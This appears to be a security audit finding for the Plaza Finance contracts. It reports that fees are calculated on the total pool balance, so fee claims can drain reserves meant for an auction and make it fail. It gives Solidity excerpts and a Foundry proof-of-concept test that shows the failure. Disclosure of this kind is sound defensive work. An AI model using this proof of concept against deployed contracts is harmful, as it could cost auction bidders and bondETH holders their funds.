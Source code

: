 Lucky Malachite Blackbird

High

# Reserves auction could be drained through fee claims, breaking auction settlement

### Summary

The fee calculation using total pool balance instead of available balance will cause auction failures as governance/beneficiary can claim fees from auction-reserved funds, impacting auction winners and `bondETH `holders.

### Root Cause

The fee can be withdrawn at any time by calling `claimFees`, with the amount based on time elapsed since `lastFeeClaimTime`. There is no fixed withdrawal period ( **including a running Auction **) - it's calculated continuously and can be claimed whenever the `feeBeneficiary `or governance decides to call the function.


### Attack Path

We could show this as follow : when the Pool initiates the auction : 

```solidity
function startAuction() external whenNotPaused() {
    uint256 couponAmountToDistribute = (normalizedTotalSupply * normalizedShares)
        .toBaseUnit(maxDecimals * 2 - IERC20(couponToken).safeDecimals());

    auctions[currentPeriod] = Utils.deploy(
        address(new Auction()),
        abi.encodeWithSelector(
            Auction.initialize.selector,
            address(couponToken),
            address(reserveToken),
            couponAmountToDistribute,
            block.timestamp + auctionPeriod,
            1000,
            address(this),
            poolSaleLimit
        )
    );
}
```
Pool provides ETH to Auction: 

```solidity
function transferReserveToAuction(uint256 amount) external {
    (uint256 currentPeriod, ) = bondToken.globalPool();
    address auctionAddress = auctions[currentPeriod];
    require(msg.sender == auctionAddress, CallerIsNotAuction());
    
    IERC20(reserveToken).safeTransfer(msg.sender, amount);
}
```
Auction requests ETH from Pool: 

```solidity
function endAuction() external {
    if (state == State.SUCCEEDED) {
        Pool(pool).transferReserveToAuction(totalSellReserveAmount);
        IERC20(buyCouponToken).safeTransfer(beneficiary, IERC20(buyCouponToken).balanceOf(address(this)));
    }
}
```

The Vulnerability  exist in `getFeeAmount `function calculates fees on the total pool balance including auction reserves:

```solidity
function getFeeAmount() internal view returns (uint256) {
    return (IERC20(reserveToken).balanceOf(address(this)) * fee * (block.timestamp - lastFeeClaimTime)) / (PRECISION * SECONDS_PER_YEAR);
}
```

### Impact

 The auction participants cannot receive their promised ETH as fee claims reduce available reserves below required amounts, causing auction failure through [FAILED_POOL_SALE_LIMIT](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L589) state. 

### PoC

Add this to Pool.t.sol : 

```solidity
function testComprehensiveFeeAuctionFailure() public {
    // Setup initial state
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);
    
    // Create pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);
    
    // Initial pool setup with 1000 ETH
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);
    
    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 500 ether, 250 ether, "", "", "", "", false));
    
    // Start auction which reserves 95% (950 ETH)
    pool.startAuction();
    
    // Get auction contract
    (uint256 currentPeriod,) = pool.bondToken().globalPool();
    address auctionAddress = pool.auctions(currentPeriod);
    Auction auction = Auction(auctionAddress);
    
    // Setup bidders
    address bidder1 = address(0x1);
    address bidder2 = address(0x2);
    
    // Place bids
    vm.startPrank(bidder1);
    rToken.mint(bidder1, 500 ether);
    rToken.approve(auctionAddress, 500 ether);
    auction.bid(100 ether, 500 ether);
    
    vm.startPrank(bidder2);
    rToken.mint(bidder2, 450 ether);
    rToken.approve(auctionAddress, 450 ether);
    auction.bid(90 ether, 450 ether);
    
    // Fast forward 5 days into auction
    vm.warp(block.timestamp + 5 days);
    
    // Calculate and claim fees
    uint256 expectedFee = (1000 ether * 20000 * 5 days) / (1000000 * 365 days);
    
    vm.startPrank(params.feeBeneficiary);
    uint256 initialBalance = rToken.balanceOf(params.feeBeneficiary);
    pool.claimFees();
    
    // Verify fee claim
    uint256 finalBalance = rToken.balanceOf(params.feeBeneficiary);
    uint256 feeAmount = finalBalance - initialBalance;
    assertEq(feeAmount, expectedFee);
    
    // Verify pool balance reduced below auction needs
    uint256 poolBalance = rToken.balanceOf(address(pool));
    assertLt(poolBalance, 950 ether);
    
    // Fast forward to auction end
    vm.warp(block.timestamp + 5 days);
    
    // End auction
    auction.endAuction();
    
    // Verify auction failed due to insufficient pool balance
    assertEq(uint256(auction.state()), uint256(Auction.State.FAILED_POOL_SALE_LIMIT));
    
    // Verify bidders can't claim ETH
    vm.startPrank(bidder1);
    vm.expectRevert(Auction.AuctionFailed.selector);
    auction.claimBid(1);
}
```

